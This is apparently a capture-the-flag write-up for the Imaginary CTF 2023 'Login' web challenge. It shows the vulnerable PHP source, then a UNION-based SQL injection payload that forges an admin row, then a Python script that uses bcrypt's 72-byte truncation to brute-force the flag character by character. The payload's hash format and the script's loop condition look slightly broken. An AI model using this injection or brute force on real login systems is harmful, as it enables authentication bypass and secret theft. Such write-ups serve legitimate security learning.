

# Web - Login (Imaginary CTF 2023)

## Problem

After accessing the site, we find in HTML comments that `/?source` is present, which gives us the source code for the PHP content:

```php
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
?>
```
```html
<!-- Continued from above -->
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Login</title>
    <link type="text/css" rel="stylesheet" href="https://cdn.simplecss.org/simple.css" />
</head>

<body>
    <main>
        <h2>Login</h2>
        <form method="POST">
            <p>
                <label for="username">Username</label>
                <input type="text" name="username" placeholder="Username" />
            </p>
            <p>
                <label for="password">Password</label>
                <input type="password" name="password" placeholder="Password" />
            </p>
            <p>
                <button type="submit">Login</button>
            </p>
        </form>
        <p>
            <?= $msg ?>
        </p>
    </main>
</body>

</html>
<!-- /?source -->
```

## Solution

There are 2 steps to this problem. We first obtain to obtain the magic value (so that eventually the flag is appended to the password). After doing some research, we find that password_verify is checking against a `bcrypt` hash. 


We can therefore combined this with a SQL injection payload to force the password to be anything we want by pre-computing the hash in advance.
* Username must be `admin` for flag to be displayed
* SQLi UNION-based injection allows us to craft a username / password hash combination that we want to verify against

The payload and result is as follows:

```
abcdef' UNION SELECT 'admin', '$1$7SkSJrDl$Av6l1RrMZ2MjeL6OxD2Wr1' FROM users WHERE '1'='1
```



The magic value is `688a35c685a7a654abc80f8e123ad9f0`.

Now that we have the magic value, the flag is appended to the password when the magic value is passed as a GET parameter. After some [research](https://stackoverflow.com/questions/72328504/does-php-have-a-password-verify-bug), we further find that due to the use of `bcrypt` hashes, onl y the `first 72 characters` of the password are used in the hash computation. Hence, we can do:
* `b...b?` + `flag` (71 'b's +  1st character of flag '?') and compute hash of `b...b` + all possible test characters (e.g. 'i'). 
* If we manage to login, the character is correct. Otherwise, try the next character. Repeat with 1 less `'b'` to compute 2nd character of flag etc. until flag is found.

Solve script is below:
```python
import requests, bcrypt, string

salt = bcrypt.gensalt()
print('Chosen bcrypt salt:', salt)
flag, flag_length = b'', 0
while flag[-1] != ord(b'}'):
    for c in '?!}_' + string.ascii_lowercase + string.digits + string.ascii_uppercase: #range(0x30, 0x7f): # '0' to '~'
        test_string = b'b'*(71-len(flag))+flag+c.encode('utf-8')
        test_hash = bcrypt.hashpw(test_string, salt)
        print(test_string, test_hash, len(test_string))
        magic = '688a35c685a7a654abc80f8e123ad9f0'
        url = f"http://login.chal.imaginaryctf.org:80/?{magic}"
        data = {"username": f"abcdef' UNION SELECT 'admin', '{test_hash.decode('utf-8')}' FROM users WHERE '1'='1", 
                "password": (b'b'*(71-len(flag))).decode('utf-8')} # Everything after 'b' is the flag, up to 72nd char is hashed
        print(data)
        r = requests.post(url, data=data)
        if magic in r.text:
            flag += c.encode('utf-8')
            print('\nFLAG:', flag)
            break
# Let it run...
print('FINAL FLAG:', flag)

```

## Flag

ictf{why_are_bcrypt_truncating_my_passwords?!}